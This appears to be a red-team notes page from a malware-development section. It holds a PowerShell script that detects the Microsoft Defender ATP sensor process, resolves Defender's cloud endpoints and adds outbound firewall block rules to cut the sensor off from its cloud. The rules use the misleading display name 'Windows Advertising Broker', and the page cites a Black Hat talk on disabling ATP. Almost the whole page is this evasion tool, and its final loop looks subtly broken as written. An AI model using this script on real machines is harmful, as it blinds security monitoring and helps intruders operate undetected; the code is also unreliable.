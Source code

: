 # Firewalls

```powershell
# Define Cloud Security Vendor Address
# Windows Defender ATP

$MSATP1 = "securitycenter.windows.com"
$MSATP2 = "winatp-gw-cus.microsoft.com"
$MSATP3 = "winatp-gw-eus.microsoft.com"
$MSATP4 = "winatp-gw-weu.microsoft.com"
$MSATP5 = "winatp-gw-neu.microsoft.com"
$MSATP6 = "us.vortex-win.data.microsoft.com"
$MSATP7 = "eu.vortex-win.data.microsoft.com"
$MSATP8 = "psapp.microsoft.com"
$MSATP9 = "psappeu.microsoft.com"
$MSATPURLs = $MSATP1,$MSATP2,$MSATP3,$MSATP4,$MSATP5,$MSATP6,$MSATP7,$MSATP8,$MSATP9

# Checking for Behavioural Analysis AV security product processes and adding outbound FW blocks
Write-Output ("[*] Checking for Behavioural Analytics AV security product processes and adding outbound firewall block rules" + "`n")
[CmdletBinding()]
$processnames = Get-Process | Select-Object ProcessName
Foreach ($ps in $processnames) {
    if ($ps.ProcessName -like "*MsSense*") {
        Write-Output ("[*] Defender ATP process " + $ps.ProcessName + " is running." + " Resolving ATP FQDN IP's and blocking outbound connections.")
        $MSATPCouldIPs = $MSATPURLs | foreach {[System.Net.Dns]::GetHostAddresses($_)} | Select-Object -ExpandProperty IPAddressToString
        Foreach-Object {
            New-NetFirewallRule -DisplayName "Windows Advertising Broker" -Direction Outbound -Action Block -RemoteAddress "$_" -Profile Any
            Write-Host "$_ - Outbound Firewall Block Was Added: $?"
        }
    }
}
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/Malware Development/Helpers/Evasion/Detection/Security Vendors/Windows/Microsoft]]

### Blackhat

- [Blackhat: Red Team Techniques for Evading, Bypassing, and Disabling MS Advanced Threat Protection and Advanced Threat Analytics](https://www.blackhat.com/docs/eu-17/materials/eu-17-Thompson-Red-Team-Techniques-For-Evading-Bypassing-And-Disabling-MS-Advanced-Threat-Protection-And-Advanced-Threat-Analytics.pdf)